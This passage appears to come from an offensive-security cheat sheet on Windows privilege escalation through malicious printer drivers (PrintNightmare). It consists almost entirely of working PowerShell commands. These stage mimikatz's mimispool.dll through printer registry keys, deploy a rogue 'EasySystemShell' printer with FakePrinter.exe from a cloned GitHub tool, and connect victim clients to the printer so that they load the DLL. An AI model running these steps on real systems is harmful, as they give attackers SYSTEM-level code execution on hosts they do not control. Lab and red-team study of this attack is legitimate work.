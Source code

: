 ```ps1
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Directory' -PropertyType 'String'      -Value 'x64\3'           | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Litchi') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Directory' -PropertyType 'String'      -Value 'W32X86\3'        | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Mango')  | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Directory' -PropertyType 'String'      -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Files'     -PropertyType 'MultiString' -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Module'    -PropertyType 'String'      -Value 'mimispool.dll'   | Out-Null
```

Execute the driver

```ps1
$serverName  = 'dc.purple.lab'
$printerName = 'Universal Priv Printer'
$fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName
```

### PrinterNightmare

```ps1
git clone https://github.com/Flangvik/DeployPrinterNightmare
PS C:\adversary> FakePrinter.exe 32mimispool.dll 64mimispool.dll EasySystemShell
[<3] @Flangvik - TrustedSec
[+] Copying C:\Windows\system32\mscms.dll to C:\Windows\system32\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 64mimispool.dll to C:\Windows\system32\spool\drivers\x64\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 32mimispool.dll to C:\Windows\system32\spool\drivers\W32X86\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Adding printer driver => Generic / Text Only!
[+] Adding printer => EasySystemShell!
[+] Setting 64-bit Registry key
[+] Setting 32-bit Registry key
[+] Setting '*' Registry key
```

```ps1
PS C:\target> $serverName  = 'printer-installed-host'
PS C:\target> $printerName = 'EasySystemShell'
PS C:\target> $fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
PS C:\target> Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
PS C:\target> Add-Printer -ConnectionName $fullprinterName
```
